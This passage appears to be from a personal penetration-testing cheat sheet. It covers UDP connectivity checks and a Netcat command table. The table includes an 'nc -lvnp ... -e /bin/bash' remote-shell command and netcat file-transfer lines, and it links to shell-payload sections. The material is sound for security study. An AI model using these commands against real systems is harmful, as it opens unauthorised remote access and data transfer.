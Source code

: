 
> - For **UDP** port checks
  > - normally in a real environment launching **Wireshark** you can *sniff* for **DNS requests** originating from the target machine which verifies outbound connectivity with port 53 (UPD)
  > - However in VM's that has virtualisation restrictions
  > - Change *target* DNS settings and configure *host* as DNS server

[Back to Top](#table-of-contents)


------------------------------------------------------------------------------------------------------------------------------------------------------

# TOOLS

------------------------------------------------------------------------------------------------------------------------------------------------------

## NC-Netcat

Relational Tools:\
[[#Common Shell Payloads]], [[#PAYLOADS-SHELLS]], [[#Web-Fingerprinting]], [[#Common-OS-File-locations]]

Versatile tools that has various operations on both TCP & UDP connections or port of choice.\
Among all its versatility, it has the ability to be either a client or a server as well.

**Example of information when connected as client with NC**

![](https://i.imgur.com/ZxqOPTm.png)

|                                              | Description                                                                                                  |
|:-------------------------------------------- |:------------------------------------------------------------------------------------------------------------ |
| @ **Setting up Server host**                 | ---                                                                                                          |
| `nc -$OPTIONS $LPORT $FILEsave`              | Open server, **listening** on target port                                                                    |
| `nc -lvnp $LPORT -e /bin/bash `              | allows executing a command, i.e possible **remote shell**                                                    |
|                                              |                                                                                                              |
| @ **Setting up Client host**                 | ---                                                                                                          |
| `nc -v $LHOST $LPORT`                        | Connection to the host and the listening port                                                                |
| `echo <message_"or"_instruction.txt> <pipe>` | Feed instruction or **message** directly into nc when running command, then **immediately close connection** |
| `cat <sending_file.txt> <pipe> `             | sending a **textfile** and the listening server receiving the transfer                                       |
| =========================================    | =========================================                                                                    |
|                                              |                                                                                                              |
| @ **Options**                                | ---                                                                                                          |
| `-l`                                         | Specify listening                                                                                            |
| `-v`                                         | Specify verbosity of information                                                                             |
| `-p $LPORT`                                  | Specify port                                                                                                 |
| `-u`                                         | Specify UDP connection                                                                                       |
| `-e "/bin/bash"`                             | Executes a program upon a successful connection and allows client to interact with it                        |
